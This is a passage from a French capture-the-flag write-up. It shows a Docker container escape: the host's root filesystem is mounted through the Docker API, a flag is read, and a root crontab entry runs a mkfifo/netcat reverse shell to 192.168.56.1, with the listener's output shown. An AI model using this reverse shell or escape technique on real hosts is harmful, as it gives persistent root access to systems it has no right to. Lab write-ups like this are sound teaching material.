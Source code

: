 ```bash
'uid=0(root) gid=0(root) groups=0(root)
pwd
/home/harrison
hostname
bbb0103221a8
cd /host_root
cd root
ls
        flag.txt
cat flag.txt
IDo you think you are out?


Just kidding, here is your flag: 1xcDF933mce
```

La dernière étape (ci dessus) demande un peu de préparation puisqu'il faut coller la requête HTTP avec l'ID du container sur l'entrée standard. Il aura aussi fallut rappatrier un `socat` compilé statiquement (ça se trouve sur Github).

La seconde commande cURL génère un container à partir de l'image Docker Ubuntu trouvée dans l'output de la première commande. Parmi les options de la création du container il y a les points de montage qui indiquent de monter la racine de l'hôte dans le dossier `/host_root` du container. C'est pour cela que je trouve le vrai flag à l'intérieur.

Pour aller plus loin et obtenir un vrai shell je peux ajouter une entrée crontab dans l'hôte (par exemple dans `/var/spool/cron/crontabs/root` ):

```bash
* * * * *  bash -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.56.1 80 >/tmp/f
```

Cette fois ça marche. J'ai juste la sortie standard qui ne s'affiche pas mais je peux l'obtenir en la redirigant vers le flux d'erreur :

```bash
$ ncat -l -p 80 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 192.168.56.80.
Ncat: Connection from 192.168.56.80:60282.
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# hostname

# ip addr

# ip addr 1>&2
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:ec:32:a5 brd ff:ff:ff:ff:ff:ff
    inet 192.168.56.80/24 brd 192.168.56.255 scope global dynamic enp0s3
       valid_lft 513sec preferred_lft 513sec
    inet6 fe80::a00:27ff:feec:32a5/64 scope link 
       valid_lft forever preferred_lft forever
3: docker0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:7a:53:21:ca brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
```